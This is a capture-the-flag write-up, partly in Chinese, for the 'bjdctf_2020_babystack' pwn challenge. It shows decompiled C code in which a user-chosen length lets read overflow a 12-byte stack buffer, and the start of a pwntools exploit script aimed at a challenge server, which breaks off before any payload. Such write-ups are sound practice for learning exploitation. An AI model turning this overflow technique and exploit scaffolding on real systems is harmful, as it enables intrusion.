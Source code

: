 ```python


if __name__ == "__main__":
    main()
```

# bjdctf_2020_babystack

## Information

- Category: Pwn
- Points: 1

## Write-up

```c del={16,18}
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

`read` 读取多少字符是通过 `__isoc99_scanf` 控制的。

## Exploit

```python
#!/usr/bin/python

from pwn import ROP, args, context, flat, gdb, process, remote

gdbscript = """
b *main+197
b *main+208
c
"""

FILE = "./bjdctf_2020_babystack"
HOST, PORT = "node5.buuoj.cn", 29741

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
```